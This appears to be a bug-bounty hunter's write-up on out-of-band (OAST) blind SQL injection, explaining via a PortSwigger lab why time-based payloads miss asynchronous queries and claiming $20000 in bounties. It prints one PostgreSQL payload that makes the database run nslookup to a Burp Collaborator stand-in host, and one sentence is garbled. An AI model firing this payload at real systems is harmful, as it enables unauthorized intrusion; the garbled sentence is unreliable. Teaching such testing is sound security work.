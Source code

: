 
# OAST Based SQLi

I check lot of other hacker intruder sql injection payload wordlist — but none of the hacker use **SQL injection using out-of-band (**[**OAST**](https://portswigger.net/burp/application-security-testing/oast)**) techniques based payload.**

This made me curious, because lot of hacker not using OAST based SQL Injection payload, and only OAST based sqli payload solve this portswigger lab, so it may be possible that there are other target in the wild that are vulnerable like this, but not detected by other hackers because they are not using OAST based sqli payload. But the question is why time based sqli payload didn't work , again I carefully read the portswigger sqli study material and I find out.

Answer is written in portswigger

[An application might carry out the same SQL query as the previous example but do it asynchronously. The application continues processing the user’s request in the original thread, and uses another thread to execute a SQL query using the tracking cookie. The query is still vulnerable to SQL injection, but none of the techniques described so far will work.](https://portswigger.net/web-security/sql-injection/blind#exploiting-blind-sql-injection-using-out-of-band-oast-techniques)


**Let me explain to you what’s written here with example .**

Did you ever hear about blind XSS , it’s same like that.

Let say you send the request to server:

> https://example.com/?q={sqli}

Server securely with parameterized query process the parameter and send you the response.

But then server saved the q parameter value {sqli} to database for maybe analytics purpose and now this time code is vulnerable with sqli injection.

But you will never detect this thing, with tialtering the request URL, the researcher demonstratedme based sqli payload. because you will get your response in a proper time.

But if you used OAST sqli payload here, you will get a dns interactions and you will detect that code is vulnerable with sql injection . OAST sqli paylod for **PostgreSQL (** [https://portswigger.net/web-security/sql-injection/cheat-sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet))

```
copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'
```

# **Hunting**

I start hunting with OAST sqli payload and find lots of sql injection that are not possible to find with time based sqli payload.

Total bounty I made with **only OAST based SQL Injection** is **$20000 in 1 months.** (by th)


![[Pasted image 20250207154800.png]]

